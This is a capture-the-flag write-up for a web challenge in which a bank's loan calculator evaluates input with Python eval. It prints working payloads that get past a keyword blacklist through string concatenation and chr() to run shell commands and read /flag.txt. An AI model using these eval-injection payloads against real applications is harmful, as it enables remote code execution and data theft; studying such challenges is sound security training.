

# 3v@l

*Category:* Web

---

# Description
> ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

---

# Attachment

---
# Solution

From the description, I infer that there is a vulnerable eval function and no input sanitation in place.

In the html of the page, it shows the block keywords:

I tested multiple payloads until I came across one that worked:

`__import__('o'+'s').popen('l'+'s').read()`

This payload returned: app.py, static, templates

The hint said that the flag is in file `/flag.txt` so I modified payload to use `cat /flag.txt` but since keyword cat and special characters are blocked, I used chr() function to bypass the blacklist.

`__import__('o'+'s').popen('ca'+'t '+chr(47)+"flag"+chr(46)+"txt").read()`

